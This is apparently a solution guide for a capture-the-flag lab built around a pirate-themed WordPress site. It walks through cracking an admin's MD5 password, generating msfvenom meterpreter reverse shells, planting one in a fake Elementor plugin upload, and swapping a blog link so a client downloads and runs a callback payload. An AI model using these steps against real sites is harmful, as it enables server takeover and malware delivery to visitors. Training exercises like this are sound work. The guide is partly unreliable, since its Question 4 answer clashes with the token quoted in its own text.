

# For Pieces of Eight, They'll Steal Your Freight

_Solution Guide_

## Overview

Exploit a pirate's WordPress site by gaining administrator access and altering malicious scripts.  You will need to crack a password, examine the site files and find a token, and alter a link to deliver a malicious payload.  Finally, gain access to the files on the website and get the last token.

When deploying a hosted version of this challenge, answers are randomly generated for each deployment. This guide provides the steps to solve the challenge and the answers for the artifacts provided in the challenge directory.

### Setup

Ensure you have run `sudo dhclient eth0` on Samus and/or verify that you have an IP of 123.45.200.201/16 before starting the challenge.

>Note: It is unclear why when this interface is set to get its IP via dhcp it still fails to do so on boot -- perhaps due to the firewall not being fully up before it stops trying.

## Question 1

_What is the cracked password for the user Ridley?_

**Answer:** ridleyGTsamus

First, players are likely to browse to the site to see what it looks like. You will be presented with the generic WordPress page. Scanning the site would be prudent to discover the default login and admin pages, unless players are familiar with the defaults.

A Nikto, or other web scanner, should reveal a login page at `thespacepiratebay.org/wp-login` and an admin page at `thespacepiratebay.org/wp-admin`. Those familiar with WordPress may already know of these.


As the challenge files provided include a hash of the user Ridley's password, cracking that password would be an appropriate next step and could run in the background while investigating the site further.

Be careful if scripting this, as the way the wordlist strings are read out of the file could alter the hash values (i.e. newline chars and other terminators).

You could write a simple hashing script to hash each line of the file and write these hashes to a new file. Then the line that matches the provided hash would be the line in the wordlist that corresponds to Ridley's password. You could also use tools like John the Ripper, though they may take some massaging of the files to get them in the right format.

```
import hashlib

def compute_MD5_hash(string, encoding='utf-8'):
    md5_hasher = hashlib.md5()
    md5_hasher.update(string.encode(encoding))
    return md5_hasher.hexdigest()

with open("/home/user/Desktop/wordlist.txt") as f:
    for line in f:
        print(compute_MD5_hash(line))
```

Run the script and send the results to a file: `python3 hasher.py > hashlist.txt`. Then compare the results to the password hash and align the corresponding line number in the wordlist.


With this password you can login to the WordPress site and/or the admin page, as this user is an admin. The password is also the answer to Question 1, which helps players ensure they are on the right track.

## Question 2

_What is the token found on the web server with the WordPress site files?_

**Answer:** 4c0413e98f0c

The challenge files provides a Github vulnerability page on the Elementor plugin in WordPress (CVE-2022-1329). It would be up to the players to figure out if this is viable, which is evident by the fact that the Elementor plugin is in fact installed and includes one of the vulnerable versions. Players could try the other vulnerabilities, but this is the intended method of gaining remote access to the underlying server.


Within the exploit page provided, there is an example zip package containing a fake elementor-pro plugin. Within this folder you need to replace or update the elementor-pro.php file with one that will create a reverse shell to your machine.

You will not need the exploit python script since you have access to the admin plugins page of the site and can upload this package directly.

An example generation of this php reverse shell payload might look like the following (you can use any port you like, but it might be a good idea to ***not*** use 443 so that you can use it later in the challenge:

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=123.45.200.201 LPORT=5555
-f raw -o payload.php
```


Then add the payload php function to the elementor-pro.php file in the provided Github elementor-pro.zip package with this payload php code instead. Keep the name, and then rezip the contents into a zip file named elementor.pro.zip that preserves the previous contents.

It should look something like this:


Then start a listener on Samus to capture the return traffic (port 443 used here as an example, but could be any port):


Finally, you can upload/install/activate the plugin in WordPress as the admin user by browsing to the Plugin menu, then click Add New (then Upload Plugin if prompted with an error message), select the elementor-pro.zip file you modified and click Install Now, and lastly activate the plugin once it is installed. Make sure the plugin is activated before leaving this page.




After you refresh any page of the site, you should see a session pop up in meterpreter, giving you interactive shell access to the web server. Simply activating the plugin on the web page should also cause this session to be created as you should see a session created shortly after
clicking on activate.


This session is already providing a shell to the system once initiated.

Running `pwd` will place you in the plugins directory and the token can be found in the main WordPress directory, as stated in the question. The main WordPress directory is /srv/www/wordpress/ and the token file is named "token1".


The hexadecimal string found in the token1 file is the answer for submission for the token found in the WordPress directory.

## Question 3

_What is the token provided from the grading server for successfully replacing the Connect With Me link in the blog post?_

**Answer:** This token cannot be retrieved in the offline version of the challenge.

First, based on the information provided in the challenge instructions, we know the client to be an x64 architecture based Ubuntu/Linux system. Therefore, the reverse shell payload that we create must be for Linux and of an x64 type.

An example generation of this payload might look like the following:

```
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=123.45.200.201 LPORT=443 -f elf > connectwithme.elf
```
Remember to name the file appropriately so that the grading check can get the proper file.

Next, edit the "Call to Arms" post as Ridley (who is the author) and change the link that says "Connect With Me" to point to your payload at `http://123.45.200.201/connectwithme.elf` instead of the email link originally provided.


Next, start a simple apache server on Samus and place the payload in the /var/www/html directory so that it is accessible. This should be all it takes to make the grading check pass and then initiate the connection.

Before you initiate grading, remember to start a listener to handle the reverse shell upon connection. You can repeat the same basic steps from before to start a listener in Metasploit but change the PAYLOAD type to match what you used above.


Once you believe that you have been successful in creating the payload and replacing the corresponding link go to the grading page of the challenge server and initiate the grading check. Note the reminder that this check only validates the presence and accuracy of the new URL link, not that you have a valid connection.


While the grading script is running you will see this message:


After 5 to 10 seconds the check should be complete and you can click the button to view your results.

If your post edits were accurate you will be provided with a "success" message and the token for submission.

The hexadecimal string provided is the token for submission for the third submission field for successfully modifying the "Connect With Me" link with your payload.

Your payload will be downloaded and initiated in the background when the grading check passes. You should see a session appear in Metasploit shortly thereafter as long as you have everything configured correctly. If you ever lose this connection, you can re-initiate the grading check to run it again.

## Question 4

_What is the obfuscated token string found on the client system within the traitor's home directory contents?_

**Answer:** 1b4b9c8d7d18

Once you have gained remote access to the client through the reverse shell, search through the contents of Cypher's home folder at **/home/cypher**. You'll need to verify its existence first.


Here, you will find a folder named "booty" which holds a few image files of gold, treasure, and a flag.


You might download these to your local system for viewing, but that will not provide any additional context alone.

Take a closer look at the contents of the flag file with `cat` to see that this is indeed an image file, but the flag text string has been embedded or appended to the end of the file.


The hexadecimal string, 97883efad371 in this case, is the token for the final submission for the flag/token found on the traitorous user's system.
